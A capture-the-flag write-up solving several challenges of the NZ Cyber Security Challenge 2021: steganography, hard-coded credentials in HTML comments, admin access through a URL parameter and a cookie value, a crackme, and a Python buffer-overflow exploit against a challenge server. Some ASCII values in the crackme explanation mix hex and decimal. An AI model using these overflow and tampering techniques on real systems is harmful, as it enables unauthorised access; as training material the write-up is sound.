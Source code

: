 # NZ Cyber Security Challange 2021

## Challenge 2
The challenge provides a picture of a scientist cleaning a black board. Steganography is used to hide the board's contents.

![Original image](chal2/Sunshine.jpg)

You can already see a little bit. Many tools can be used to reveal but I used Photoshop with its Blending feature.

![Modified image](chal2/Sunshine-unveiled.jpg)

And we got the flag:
```
flag{A2QB7G#MagnesiumChlorideHexahydrate000000}
```

## Challenge 3
A login form with username and password was given. A simple check on source code reveals the username and password in a commented section
```html
<!-- Username: dumbh4ck5 Password: XorIsNotSooS3cur3 -->
```
Enter the details in and the flag appears.
```
flag{KLY5FQ#Dibasicsodiumphosphatedihydrate000}
```

## Challenge 4
The page shows "EXTERMINATE CARLOS" with an image of a robot. I spent quite some time digging that image and got nothing out of it. Then after viewing the source code, I found
```html
<!-- Show only for admin -->
<div id="admin-panel"></div>
```
So we need to somehow prove that we are admin. I tried setting cookie but that didn't work so I tried adding a parameter in URL `?admin=1` and a link to Admin panel shows up.<br/>
The Admin panel page has Carlos and Bob names with delete buttons next to them. Exterminate Carlos and we got the flag
```
flag{R5D3SM#Heptadecan-9-yl0000000000000000000}
```

## Challenge 5
An executable file named "buff" was given along with a form to send some input to it on the server. Opening the file in Ghidra quickly shows a function called `helper` call `cat flag.txt` but the function itself isn't called anywhere.

![helper function](chal5/helper.jpg)

In `overflow` function, which is basicly `main`, we can see that we have a buffer-overflow here, we can use this to overwrite the return address to point to `helper` function.

![overflow](chal5/overflow.jpg)

The address can be obtained in different ways, I prefer pwntools because I will use python to send POST request to server anyway.

```py
#!/usr/bin/env python3

from pwn import *
import requests
import re

elf = ELF("./buff")

print("Found helper at: " + str(p32(elf.symbols['helper']))[2:-1])

payload = b"A" * 516 + p32(elf.symbols['helper'])

r = requests.post("https://r0.nzcsc.org.nz/challenge5/", data={"message": payload}, timeout=5)
print(re.search("flag{.*}", r.text).group())
```
or [here](chal5/payload.py)

516 bytes padding is the sweet spot here, following is the address of `helper`. The server may lag sometimes so just run the script again.

And the flag
```
flag{3cj2kx#4-hydroxybutylZanediyl000000000000}
```

## Challenge 6
A [crackme](chal6/crackme) file was given. It is an executable file so I threw it in Ghidra to have a look.<br/>
Here is the main function:<br/>
![Ghidra main function](chal6/ghidra.jpg)
1. First it checks the parameter we give to be exactly 16 chars
2. Call `checkMod()` function with a parameter substring, every 4 chars.
3. `checkMod()` will convert that 4 characters into integers and sum them up, for example, "AAAA" will be 41 + 41 + 41 + 41. After that, it checks if that sum is divisible by a given number - third parameter, which are `5, 2, 0xb = 11, 0x137 = 311`

After some tinkering with ASCII table, I came up with `FFFFBBBBBBBBPPPG`. Which can be explained:
```
FFFF = 70 + 70 + 70 + 70 = 280. % 5 = 0
BBBB = 42 + 42 + 42 + 42 = 168. % 2 = 0 and % 11 = 0
PPPG = 80 + 80 + 80 + 71 = 311. % 311 = 0
```
There are many combinations can work.

Passing that to the program and we got the flag:
```
./crackme FFFFBBBBBBBBPPPG
[+] You win!
[+] Here's your flag - Flag{B78YYB#N-ditetradecylacetamide00000000000}
```

## Challenge 10
It's the same login form as [Challenge 3](#Challenge%203) with 1 additional step: modifying a cookie value.<br/>
Change cookie `logged-in` from 0 to 1, then login with the same credentials will show the flag:
```
flag{3gSdzl#TromethamineHydrochloride000000000}
```